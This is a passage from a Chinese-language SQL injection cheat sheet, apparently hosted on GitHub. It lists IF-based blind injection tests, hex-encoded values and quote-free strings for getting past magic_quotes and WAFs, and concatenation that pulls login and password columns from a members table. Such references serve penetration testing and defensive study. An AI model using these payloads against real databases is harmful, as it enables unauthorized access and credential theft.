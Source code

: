 *   `IF condition true-part ELSE false-part`(S)
    
    > `IF (1=1) SELECT 'true' ELSE SELECT 'false'`
    

#### 使用了If语句的注入攻击样例

> `if ((select user) = 'sa' OR (select user) = 'dbo') select 1 else select 1/0`(S)

如果当前用户不是**"sa"或者"dbo"**,就会抛出一个**`divide by zero error`**。

### 整数(Integers)的使用

对于绕过十分有用，比如**magic_quotes() 和其他类似过滤器**，甚至是各种WAF。

*   `0xHEXNUMBER`(SM)
    
    (HEXNUMBER:16进制数） 你能这样使用16进制数：
    
    *   `SELECT CHAR(0x66)`(S)
        
    *   `SELECT 0x5045`(M) (这不是一个整数，而会是一个16进制字符串）
        
    *   `SELECT 0x50 + 0x45`(M) (现在这是整数了)
        

### 字符串操作

与字符串相关的操作。这对于构造一个不含有引号，用于绕过或探测数据库都非常的有用。

#### 字符串的串联

*   `+`(S)
    
    `SELECT login + '-' + password FROM members`
    
*   `||`(*MO)
    
    `SELECT login || '-' || password FROM members`
    

***关于MySQL的"||"**这个仅在ANSI模式下的MySQL执行，其他情况下都会当成'逻辑操作符'并返回一个0。更好的做法是使用`CONCAT()`函数。

*   `CONCAT(str1, str2, str3, ...)`(M)
    
    连接参数里的所有字符串 例：`SELECT CONCAT(login, password) FROM members`
    

### 没有引号的字符串

有很多使用字符串的方法，但是这几个方法是一直可用的。使用`CHAR()`(MS)和`CONCAT()`(M)来生成没有引号的字符串

*   `0x457578`(M) - 16进制编码的字符串
    
    `SELECT 0x457578`
    
    这在MySQL中会被当做字符串处理
    
*   在MySQL中使用16进制字符串的一个简单方式：`SELECT CONCAT('0x',HEX('c:\\boot.ini'))`
    
*   在MySQL中使用`CONCAT()`函数：`SELECT CONCAT(CHAR(75),CHAR(76),CHAR(77))`(M)
    
    这会返回'KLM'
    